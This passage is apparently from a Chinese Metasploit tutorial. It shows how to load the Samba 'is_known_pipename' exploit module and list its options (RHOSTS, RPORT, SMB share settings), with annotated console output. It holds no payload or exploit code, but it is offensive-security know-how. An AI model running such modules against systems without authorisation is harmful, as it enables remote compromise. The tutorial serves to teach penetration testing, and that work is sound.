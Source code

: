 ### 漏洞利用，use

例如使用 smb漏洞，执行 `use exploit/linux/samba/is_known_pipename` 会进入一个漏洞终端

```bash
msf6 > use exploit/linux/samba/is_known_pipename
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(linux/samba/is_known_pipename) > 

```

## 2、设置模块参数（show，options，set）

### show options 查看模块设置

使用 `show options` 查看模块设置

```bash
msf6 exploit(linux/samba/is_known_pipename) > show options

# 模块设置
Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CHOST                            no        The local client address
   CPORT                            no        The local client port
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   # 目标                           yes 表示必填项
   RHOSTS                           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   # 攻击端口号
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory

# 攻击载荷设置
Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

# 攻击目标设置
Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)



View the full module info with the info, or info -d command.

```
